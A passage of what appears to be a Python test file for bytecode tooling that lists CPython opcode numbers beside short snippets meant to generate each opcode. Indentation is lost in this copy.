def FUNC_LOAD_FAST():
a = 1
a = a
#define STORE_FAST 125
def FUNC_STORE_FAST():
a = 1
a = a
#define DELETE_FAST 126
def FUNC_DELETE_FAST():
a = 1
del a
#define STORE_ANNOTATION 127
captain: str
#define RAISE_VARARGS 130
if 1 == 0:
raise ValueError
#define CALL_FUNCTION 131
#define MAKE_FUNCTION 132
def a():
pass
a()
#define BUILD_SLICE 133
a = [1,2,3,4]
b = a[::-1]
#define LOAD_CLOSURE 135
#define LOAD_DEREF 136
#define STORE_DEREF 137
#define DELETE_DEREF 138
def FUNC_CLOSURE():
a = 1
b = a
del a
def g():
return a + 1
return g()
#define CALL_FUNCTION_KW 141
"{a}".format(a = 'test')
#define CALL_FUNCTION_EX 142
def f(a, b):
pass
a = {"a":1,"b":2}
f(**a)
#define SETUP_WITH 143
with open("all.py") as f:
pass
#define EXTENDED_ARG 144
while 0 > 1:
pass
#define LIST_APPEND 145
a = [i * i for i in (1, 2)]
#define SET_ADD 146
a = {i * i for i in (1, 2)}
#define MAP_ADD 147
a = {1: i * i for i in (1, 2)}
#define LOAD_CLASSDEREF 148
def FUNC_LOAD_CLASSDEREF():
x = "xlocal"
y = "ylocal"
class C:
print(x)
print(y)
y = 1
#define BUILD_LIST_UNPACK 149
[*[1], *[2], *[3]]
#define BUILD_MAP_UNPACK 150
{**{"a":1}, **{"b":2}, **{"c":3}}
#define BUILD_MAP_UNPACK_WITH_CALL 151
def f(a, b, c):
pass
f(**{"a":1}, **{"b":2}, **{"c":3})
#define BUILD_TUPLE_UNPACK 152
(*[1], *[2], 3, *[4, 5])
#define BUILD_SET_UNPACK 153
{*[1], *[2], 3, *[4, 5]}
#define SETUP_ASYNC_WITH 154
async def FUNC_SETUP_ASYNC_WITH(b):
async with b:
pass
#define FORMAT_VALUE 155
name = "George"
f"My cool string is called {name}."
#define BUILD_CONST_KEY_MAP 156
{'a': 1, 'a': 2}
#define BUILD_STRING 157
name = "George"
f"My cool string is called {name}."
#define BUILD_TUPLE_UNPACK_WITH_CALL 158
def f(a, b):
pass
f(*[1], *[2])